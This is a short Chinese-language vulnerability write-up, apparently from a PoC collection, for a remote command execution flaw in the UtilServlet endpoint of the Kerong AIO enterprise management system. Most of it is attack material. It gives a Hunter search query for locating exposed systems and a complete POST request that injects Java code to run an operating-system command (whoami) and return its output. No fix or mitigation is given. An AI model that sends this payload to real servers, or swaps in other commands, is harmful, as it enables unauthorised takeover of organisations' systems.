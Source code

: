 # 科荣 AIO 管理系统 UtilServlet 存在远程命令执行漏洞

# 一、漏洞简介
科荣AIO企业一体化管理解决方案,通过ERP（进销存财务）、OA（办公自动化）、CRM（客户关系管理）、UDP（自定义平台），集电子商务平台、支付平台、ERP平台、微信平台、移动APP等解决了众多企业客户在管理过程中跨部门、多功能、需求多变等通用及个性化的问题。科荣 AIO 管理系统 UtilServlet 存在远程命令执行漏洞，攻击者可通过该漏洞获取服务器权限。

# 二、影响版本
+ 科荣 AIO 管理系统 

# 三、资产测绘
+ hunter`app.name="科荣 AIO"`
+ 特征

![1699631783798-97153184-155c-4762-9c58-b7c8334bc638.png](./img/8C_gc1ZbNQq7MyLJ/1699631783798-97153184-155c-4762-9c58-b7c8334bc638-959475.png)

# 四、漏洞复现
```plain
POST /UtilServlet HTTP/1.1
Host: 
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
 
operation=calculate&value=BufferedReader+br+%3d+new+BufferedReader(new+InputStreamReader(Runtime.getRuntime().exec("cmd.exe+/c+whoami").getInputStream()))%3bString+line%3bStringBuilder+b+%3d+new+StringBuilder()%3bwhile+((line+%3d+br.readLine())+!%3d+null)+{b.append(line)%3b}return+new+String(b)%3b&fieldName=example_field
```

![1706534515581-13127fb9-02eb-477c-99f7-de2a3cca7804.png](./img/8C_gc1ZbNQq7MyLJ/1706534515581-13127fb9-02eb-477c-99f7-de2a3cca7804-488011.png)



> 更新: 2024-02-29 23:55:46  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/maxbgi836ngdayg3>